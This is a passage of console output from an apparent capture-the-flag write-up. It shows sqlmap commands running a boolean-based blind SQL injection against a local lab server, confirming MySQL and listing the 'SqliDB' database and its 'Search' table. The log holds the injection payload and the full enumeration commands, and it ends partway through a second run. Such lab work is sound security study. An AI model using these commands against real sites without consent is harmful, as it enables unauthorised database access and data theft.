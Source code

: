 ```console
       __H__
 ___ ___[(]_____ ___ ___  {1.2.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 00:18:55

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] y
[00:18:58] [INFO] testing connection to the target URL
[00:18:59] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://localhost:8000/? AND 5842=5842
---
[00:18:59] [INFO] testing MySQL
[00:18:59] [INFO] confirming MySQL
[00:18:59] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[00:18:59] [INFO] fetching tables for database: 'SqliDB'
[00:18:59] [INFO] fetching number of tables for database 'SqliDB'
[00:18:59] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[00:18:59] [INFO] retrieved: 1
[00:19:02] [INFO] retrieved: Search
Database: SqliDB
[1 table]
+--------+
| Search |
+--------+

[00:19:26] [INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'

[*] shutting down at 00:19:26




root@kali:/media/sf_CTFs/tamu/Onboarding_Checklist# sqlmap -u "http://localhost:8000/?*" --dbms=MySQL --technique=B  -D SqliDB -T Search --columns
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.5#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 00:19:55

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] y
[00:19:57] [INFO] testing connection to the target URL
[00:19:58] [INFO] heuristics detected web page charset 'ascii'
```